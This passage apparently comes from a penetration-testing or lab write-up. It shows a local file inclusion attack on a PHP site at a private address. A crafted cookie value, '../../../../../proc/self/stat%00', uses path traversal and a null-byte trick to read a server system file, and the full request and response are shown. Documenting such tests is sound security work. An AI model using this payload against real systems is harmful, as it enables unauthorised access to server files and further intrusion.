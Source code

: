 <p style="text-align:justify;">
Moving further, we have first sent an HTTP request in order to see if we can read the <b>/proc/self/stat</b> file. The following request / response pair shows that we have access at the <b>/proc/self/stat</b> file
</p>

<i><b>HTTP Request :</b></i> 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
GET /listings.php HTTP/1.1
Host: 192.168.201.3
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=6b82a05ec984697da862a3b2acf884c4; user=../../../../../proc/self/stat%00
Connection: close
</pre>

<i><b>HTTP Response :</b></i>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
HTTP/1.1 200 OK
Date: Sat, 26 Dec 2020 21:18:10 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 977

&lt;!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" >
&lt;html>
[....]
&lt;p>&lt;pre>6642 (httpd) R 6637 6637 6637 0 -1 4202816 3753497 0 0 0 687 2347 0 0 15 0 1 0 427860 18386944 1978 4294967295 7602176 7912312 3217351552 3217335172 6571010 0 0 16781312 201344619 0 0 0 17 0 0 0 0
&lt;/pre>&lt;/p>&lt;/div>
&lt;/body>
&lt;/html>
</pre>
